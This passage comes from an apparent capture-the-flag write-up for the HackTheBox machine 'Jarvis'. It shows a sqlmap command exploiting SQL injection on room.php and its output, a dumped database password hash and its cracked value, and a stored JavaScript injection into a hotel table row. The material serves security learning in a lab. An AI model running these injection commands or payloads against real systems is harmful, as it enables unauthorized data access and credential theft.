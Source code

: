 Now we can use **sqlmap** to exploit the inyection and dump information such as the current database user and even the password hash.

```
$ sqlmap -u 'http://jarvis.htb/room.php?cod=1' --random-agent --level=1 --tamper=charencode --current-user --password

[...]
current user: 'DBadmin@localhost'
[11:46:32] [INFO] fetching database users password hashes
[11:46:32] [INFO] used SQL query returns 1 entry
[11:46:33] [INFO] used SQL query returns 1 entry
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] n
database management system users password hashes:
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
[...]
```

Now we can try to crack this hash using, for example, [crackstation](https://crackstation.net/):

<p align="center">
    <img width="500" height="50" src="resources/images/crackstation-hash.png">
</p>

Perfect, we have managed to enumerate a username, *DBadmin*, and its password, *imissyou*. With the database credentials
we can now log into *phpmyadmin* and manually examine the whole database. Unfortunately for us, there is not much information
there about other users in the machine whose credentials we could use to log in via *SSH* but we have more than we need now
to get code execution on the server and get an initial foothold.

Before moving on with the initial foothold, there is an interesting thing to notice in the *hotel* table, there is *HTML*
code used to render the star rating stored directly in a row, this means that we can insert *JavaScript* code that will be
executed from every client's browser that requests information about that specific room. Here we can see an example of what
would happen if we add a simple ```<script> alert("hello world!"); </script>``` in the room with *cod* 6:

<p align="center">
    <img width="700" height="40" src="resources/images/room-6-xss.png">
</p>

<p align="center">